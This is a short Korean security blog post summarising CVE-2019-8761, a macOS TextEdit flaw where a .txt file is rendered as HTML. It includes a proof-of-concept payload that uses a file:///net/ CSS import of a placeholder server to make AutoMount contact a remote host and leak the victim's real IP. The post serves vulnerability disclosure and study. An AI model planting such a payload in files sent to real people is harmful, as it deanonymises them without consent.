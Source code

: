 ```yaml
---
title: "[하루한줄] CVE-2019-8761: MacOS txt 파일로 html 실행"
author: insu
tags: [insu, cve, mac, information disclosure]
categories: [1day1line]
date: 2021-04-04 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[THIS MAN THOUGHT OPENING A TXT FILE IS FINE, HE THOUGHT WRONG. MACOS CVE-2019-8761](https://www.paulosyibelo.com/2021/04/this-man-thought-opening-txt-file-is.html)

## Target

- macOS

## Explain
MacOS에서 TextEdit를 통해 확장자명이 txt임에도 불구하고 RTF-HTML 파일로 실행할 수 있는 취약점이 발견되었습니다.

만약 txt 파일이 다음과 같이 시작하면, txt 파일임에도 HTML 파싱을 합니다.

```python
<!DOCTYPE HTML><html><head></head><body>
```

다음과 같은 CSS 속성이 로컬 CSS 파일을 로드합니다.

```python
<style> @import { "url " } </stymle>
```

하지만 작동하는 scheme은 `file://`입니다. 이를 통해 외부 요청은 할 수 없지만 로컬에 저장된 다른 로컬 파일을  열 수 있습니다.  OSX의 AutoMount 기능을 통해 원격 요청을 할 수 있습니다. `ls /net/EXAMPLE.com`을 수행하면 OSX가 `EXAMPLE.com`에 원격 요청을 보냅니다. TextEdit에서 외부 요청을 못하도록 차단하였지만 `file://` scheme를 통해 `MYSERVER.COM`에 접근할 수 있습니다. `MYSERVER.COM`에 접근하는 코드는 다음과 같습니다.

```python
<!DOCTYPE HTML>

<html><head></head><body><style>@import{ "file:///net/MYSERVER.COM/a.css"} </style>

I know where you are...</body></html>
```

AutoMount는 커널을 사용하여 TCP 연결을 하므로 프록시를 사용하더라도 실제 IP 주소를 알 수 있습니다.